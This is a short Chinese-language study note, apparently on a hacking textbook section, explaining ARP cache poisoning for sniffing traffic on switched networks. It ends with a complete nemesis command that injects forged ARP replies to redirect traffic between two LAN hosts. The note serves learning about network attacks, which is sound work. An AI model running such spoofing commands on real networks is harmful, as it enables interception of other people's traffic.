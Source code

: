 # 4
## 4.4.4
* 在交换网络中，嗅探的第一步是欺骗（spoofing）。

### ARP中令人感兴趣的3个小细节：
* 1、ARP协议（包括其他协议），无法确定源地址就是源机器地址；
* 2、ARP的应答会更新ARP缓存（除非ARP缓存中相应的项被标记为“永久”）；
* 3、即使系统没有发出ARP请求，也会接受ARP应答。

#### ARP缓存中毒：是供攻击者重写ARP缓存的技术。可进行网络流量的窃听。

#### *网络交换设备仅基于MAC地址过滤流量。

#### 由于ARP缓存超时的存在，系统会定期发动真实的ARP请求，并收到真实的应答。为持续进行重定向攻击，所以缓存投毒也要持续循环进行。

### 流量重定向步骤：
* 1、确定访问者和被访问者的IP地址和Mac地址
* (1) ping -c 1 192.168.0.1 // 访问者ip（A）,生成对应的ARP缓存
* (2) ping -c 1 192.168.0.118 // 被访问者ip（B）,生成对应的ARP缓存
* (3) arp -na // 查看缓存列表，缓存列表中可能查找不到对应的缓存记录（可以通过Wireshark抓包获取）
    * 得到:
    * 192.168.0.1 at 00:50:18:00:0F:01
    * 192.168.0.118 at 00:C0:F0:79:3D:30
    * localhost 192.168.0.193 at 00:00:AD:D1:C7:ED
    * ps：ping 使用的是icmp协议
    * MAC地址的长度为48位(6个字节，前3个字节代表网络硬件制造商的编号)ether 8c:85:90:79:28:3f
* 2、定期发送伪造的ARP应答
* (1) 使用 Nemesis（[ˈneməsɪs] 宿敌，报应）命令行数据包注入工具，注入伪造的ARP应答包。
* (2) 注入方式(伪造 A 到 B 的ARP应答)：sudo nemesis arp -v -r -d eth0 -S 192.168.0.1 -D 192.168.0.118 -h 00:00:AD:D1:C7:ED -m 00:C0:F0:79:3D:30 -H 00:00:AD:D1:C7:ED -M 00:C0:F0:79:3D:30
